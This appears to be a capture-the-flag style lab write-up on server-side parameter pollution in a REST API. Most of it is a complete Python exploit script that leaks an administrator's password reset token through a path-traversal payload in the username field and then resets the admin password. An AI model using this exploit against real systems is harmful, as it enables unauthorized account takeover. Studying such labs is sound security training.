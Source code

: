 ```yaml
---
title: 'API Lab 5'
description: 'Learn how server-side parameter pollution (SSPP) in REST APIs can lead to sensitive data exposure and full account takeover.'
---
```



## Exploiting server-side parameter pollution in a REST URL

<div style="text-align: justify;">
  In this lab, I explored how server-side parameter pollution (SSPP) can impact REST API endpoints. The vulnerability stemmed from how the server processed multiple parameters—particularly when using path traversal techniques in user-controlled input. By injecting a crafted payload into a form field, I was able to access internal object properties not intended for exposure. This led to the retrieval of the admin’s password reset token and ultimately a full account takeover.

  Additionally, the challenge reinforced the importance of inspecting JavaScript files used by the web application. One of the JS files revealed the internal API structure and helped uncover how parameters were handled by the backend, which was crucial for crafting the payload. It’s a reminder that client-side JavaScript can leak sensitive implementation details useful for attackers.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Visit the **"Forgot Password"** page and request a reset token.
- Revisit the page and inject a polluted path as the username: `../../v1/users/administrator/field/passwordResetToken#`.
- The server returns the reset token in the JSON response.
- Use the token to reset the admin password and take control of the account.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings (for labs or self-signed certs)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running by attempting a connection to the proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_csrf_token(session, base_url):
    """
    Fetch CSRF token from the /forgot-password page.
    """
    try:
        res = session.get(f"{base_url}/forgot-password", verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Failed to fetch forgot-password page: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    csrf_input = soup.find("input", {"name": "csrf"})
    
    if not csrf_input or not csrf_input.get("value"):
        print("[-] CSRF token not found on the page.")
        sys.exit(1)

    return csrf_input["value"]

def trigger_reset_token(session, base_url, csrf_token):
    """
    Trigger password reset token generation for 'administrator'.
    """
    data = {
        "csrf": csrf_token,
        "username": "administrator"
    }

    try:
        res = session.post(f"{base_url}/forgot-password", data=data, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Failed to trigger reset token: {e}")
        sys.exit(1)

def exploit_sspp(session, base_url, csrf_token):
    """
    Exploit server-side parameter pollution to extract reset token from internal API.
    """
    payload = "../../v1/users/administrator/field/passwordResetToken%23"
    data = {
        "csrf": csrf_token,
        "username": payload
    }

    try:
        res = session.post(f"{base_url}/forgot-password", data=data, verify=False, proxies=proxies)
        res.raise_for_status()
        result = res.json()
        return result["result"]
    except (requests.RequestException, ValueError, KeyError) as e:
        print(f"[-] Failed to extract token via SSPP: {e}")
        print(f"[-] Raw response: {res.text}")
        sys.exit(1)

def reset_admin_password(session, base_url, token, csrf_token):
    """
    Use leaked token to reset admin password.
    """
    reset_url = f"{base_url}/forgot-password?passwordResetToken={token}"
    data = {
        "csrf": csrf_token,
        "passwordResetToken": token,
        "new-password-1": "Password@123",
        "new-password-2": "Password@123"
    }

    try:
        res = session.post(reset_url, data=data, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Password reset failed: {e}")
        sys.exit(1)

    if "Password successfully changed" in res.text or res.status_code == 200:
        print("[+] Password reset successful!")
        print("[+] Use these credentials to log in:")
        print("    Username: administrator")
        print("    Password: Password@123")
    else:
        print("[-] Password reset response unexpected.")
        print(res.text)

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    base_url = sys.argv[1].strip()

    # Step 0: Ensure Burp Suite is running
    check_burp()

    # Step 1: Start session and get CSRF
    session = requests.Session()
    print("[*] Fetching CSRF token...")
    csrf = get_csrf_token(session, base_url)

    # Step 2: Trigger password reset to generate token
    print("[*] Triggering reset token generation...")
    trigger_reset_token(session, base_url, csrf)

    # Step 3: Re-fetch CSRF token
    print("[*] Re-fetching CSRF token...")
    csrf = get_csrf_token(session, base_url)

    # Step 4: Exploit to retrieve the token
    print("[*] Exploiting SSPP to leak reset token...")
    token = exploit_sspp(session, base_url, csrf)
    print(f"[+] Leaked reset token: {token}")

    # Step 5: Use the token to reset password
    print("[*] Attempting to reset admin password...")
    reset_admin_password(session, base_url, token, csrf)

if __name__ == "__main__":
    main()
```

